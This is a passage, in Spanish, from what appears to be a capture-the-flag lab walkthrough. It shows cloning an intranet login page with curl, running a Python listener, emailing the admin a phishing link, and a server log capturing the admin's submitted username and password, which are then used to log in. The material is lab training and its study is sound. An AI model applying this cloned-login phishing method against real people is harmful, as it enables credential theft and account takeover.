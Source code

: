 Nos guardamos la web de login para mandar al admin

```bash
$ curl http://intranet.phisermansphriends.thl/login -o index.html
```

Y nos ponemos a la escucha:

```bash
$ python server.py
Server running on port 80...
```

Ahora vamos a mandarle un email a admin desde el servicio de mail:

![image](/assets/images/phisermans/1.png)

Ahora esperamos a que nos responda el admin:

```bash
$ python server.py
Server running on port 80...
10.0.2.15 - - [30/Aug/2024 22:29:54] "GET / HTTP/1.1" 200 -
10.0.2.15 - - [30/Aug/2024 22:30:09] "POST / HTTP/1.1" 200 -
b'j_username=admin&j_password=RqykJVKDt2RBjnR2q1zeIMYm&from=%2F&Submit='
```

Nos logeamos en intranet con las credenciales que acabamos de conseguir. 
